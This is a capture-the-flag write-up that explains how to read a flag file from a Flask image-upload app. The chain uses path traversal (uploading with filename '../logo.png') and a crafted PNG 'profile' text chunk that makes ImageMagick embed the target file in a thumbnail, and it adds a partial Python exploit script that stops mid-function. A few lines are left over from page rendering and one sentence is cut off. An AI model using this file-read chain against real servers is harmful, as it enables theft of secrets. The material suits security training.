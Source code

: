 ```python
```

Once we fully understood where the vulnerabilities relied we had only to actually write a python script that had to:

```python
@app.route('/logo-sm.png')
def logo_small():
   # A smaller images looks better on mobile so I just resize it and serve that
   logo_sm_path = os.path.join(app.config['UPLOAD_FOLDER'], 'logo-sm.png')
   if not os.path.exists(logo_sm_path):
      os.system("magick/bin/convert logo.png -resize 10% " + os.path.join(app.config['UPLOAD_FOLDER'], 'logo-sm.png'))
    
   return send_from_directory(app.config['UPLOAD_FOLDER'], 'logo-sm.png')
```

1. **Craft a PNG** with a `tEXt` chunk: `profile=/home/chall/flag.txt`.
   (Any tiny valid PNG works; the key is the `profile` text chunk.)
2. **Overwrite the real logo** by uploading that PNG but naming it `../logo.png` in the form field.
   (This abuses path traversal to replace the file the site later thumbnails.)
3. **Trigger processing** by requesting the small logo (e.g., `/logo-sm.png`).
   The image pipeline reads the `profile` value and **embeds the file’s bytes** into the output image stream.
4. **Exfiltrate** by downloading the returned PNG and scraping long hex runs from the byte stream; concatenate, hex-decode, and you recover the secret.
5. **Flag** is exactly the contents of `flag.txt` produced by step 4 (printed by the helper script).

### One-liner test

It's also possible to write 

* **Upload (traversal):** `filename=../logo.png` with your crafted PNG as the body.
* **Fetch:** `GET /logo-sm.png` -> save response -> regex out `[a-f0-9]{5,}`, join, `bytes.fromhex(...).decode()`.

### Automation

Running `python3 solve.py <HOST> <PORT>` performs all steps: builds the malicious PNG with the `profile` chunk, overwrites `logo.png`, fetches `logo-sm.png`, strips hex sequences from the response, decodes, and **prints the flag**. (Artifacts: `final_exploit.png` and `final_output.png` for inspection.)

**Final submission:** the exact string output from the decode step (contents of `flag.txt`).

**P.S.**: To find the actual path of the flag we made the server crash in order to get the Flask Debug page (`debug=True`).

### Exploit

```python
#!/usr/bin/env python3
import requests
from PIL import Image, PngImagePlugin
import os
import time
import re
import sys

MALICIOUS_PNG_PATH = "final_exploit.png"
OUTPUT_PNG_PATH = "final_output.png"

def create_png(file_to_read):
    img = Image.new("RGB", (10, 10), color="black")
    info = PngImagePlugin.PngInfo()
    info.add_text("profile", file_to_read)
```